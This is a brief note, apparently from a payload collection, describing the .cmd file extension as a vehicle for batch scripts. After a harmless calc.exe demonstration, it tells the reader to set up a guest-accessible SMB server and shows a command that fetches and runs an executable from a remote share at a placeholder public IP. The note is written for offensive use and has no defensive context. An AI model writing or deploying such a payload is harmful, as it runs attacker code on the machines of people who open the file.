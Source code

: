 # cmd

This file extension is equivalent to .bat files ! 
So you can use it to write a batch script
The suggested script will just run the calc.exe
However you can setup an SMB server, Then allow guest users, and then write the following code

start \\PUBLIC_IP\\$SHARE\c.exe

